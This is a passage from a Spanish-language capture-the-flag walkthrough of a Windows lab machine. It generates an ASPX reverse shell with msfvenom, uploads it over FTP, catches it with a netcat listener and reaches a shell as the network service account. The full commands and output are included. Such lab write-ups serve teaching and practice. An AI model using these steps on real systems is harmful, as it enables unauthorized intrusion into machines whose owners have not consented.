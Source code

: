 Listo, tenemos una **WebShell** que podemos usar para conectarnos a la máquina víctima.

<br>

<h2 id="DistMetodos">Conectándonos a la Máquina Víctima con Distintos Métodos</h2>

Vamos a realizar al menos 4 formas en las que podemos ganar acceso a la máquina.

2 de ellas, ya las he realizado en la **máquina Devel**

Puedes elegir cualquiera de estas para continuar.

<br>

<h3 id="RevShell">Creando y Ejecutando una Reverse Shell de ASPX con msfvenom</h3>

Vamos a generar una **Reverse Shell** con formato **ASPX** utilizando **msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=443 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2736 bytes
Saved as: shell.aspx
```

Vamos a cargar el archivo al **FTP**, pero con el modo binario para que no se llegue modificar nada durante la transferencia:
```batch
ftp> binary
200 Type set to I.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
227 Entering Passive Mode (192,168,1,80).
125 Data connection already open; Transfer starting.
100% |*********************************************|  2774       75.58 MiB/s    --:-- ETA
226 Transfer complete.
2774 bytes sent in 00:00 (59.81 KiB/s)
```

Ahora, con **rlwrap** usamos **netcat** para abrir un listener y esperar a obtener la **Reverse Shell**:
```bash
rlwrap nc -nvlp 443
listening on [any] 443 ...
```

Y ya solo nos metemos al archivo que cargamos desde la página web y ya obtendremos la conexión:
```batch
rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.80] 49184
Microsoft Windows [Versi�n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.
.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\servicio de red
```
Estamos dentro.
